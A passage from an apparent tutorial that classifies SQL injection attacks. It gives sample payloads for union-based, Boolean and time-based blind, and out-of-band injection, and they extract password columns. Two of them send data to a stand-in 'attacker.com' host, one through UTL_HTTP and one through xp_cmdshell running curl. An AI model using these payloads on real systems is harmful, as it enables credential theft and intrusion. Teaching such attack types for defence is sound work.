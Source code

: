 #### **B. Union-Based SQL Injection**

- **Description**: The attacker uses the `UNION` operator to combine results from multiple `SELECT` statements into a single response.
- **Example**:
  ```sql
  ' UNION SELECT username, password FROM users--
  ```
- **Prerequisite**: The number of columns in the `UNION` must match the original query.

---

### **2. Blind SQL Injection (Inferential SQLi)**

The attacker cannot see the results directly but infers information based on behavioral differences.

#### **A. Boolean-Based Blind SQLi**

- **Description**: The application returns different responses (e.g., true/false) based on injected conditions.
- **Example**:
  ```sql
  ' AND (SELECT SUBSTRING(password, 1, 1) FROM users WHERE username='admin')='a'--
  ```
- **Exploitation**: The attacker tests character-by-character (e.g., "Is the first letter 'a'?").

#### **B. Time-Based Blind SQLi**

- **Description**: The attacker induces delays (e.g., `SLEEP(5)`) to confirm conditions.
- **Example (MySQL)**:
  ```sql
  ' AND IF(1=1, SLEEP(5), 0)--
  ```
- **Exploitation**: A delayed response indicates a true condition.

---

### **3. Out-of-Band SQL Injection**

The attacker exfiltrates data via external channels (e.g., DNS, HTTP requests) when direct retrieval isn't possible.

#### **A. DNS Exfiltration**

- **Description**: Data is leaked via DNS lookups triggered by the database.
- **Example (Oracle)**:
  ```sql
  ' || UTL_HTTP.REQUEST('http://attacker.com/'||(SELECT password FROM users WHERE username='admin'))--
  ```
- **Exploitation**: The attacker monitors DNS logs for leaked data.

#### **B. HTTP Exfiltration**

- **Description**: Data is sent to an attacker-controlled server via HTTP requests.
- **Example (MSSQL)**:
  ```sql
  '; EXEC xp_cmdshell('curl http://attacker.com/?data='+(SELECT password FROM users))--
  ```

---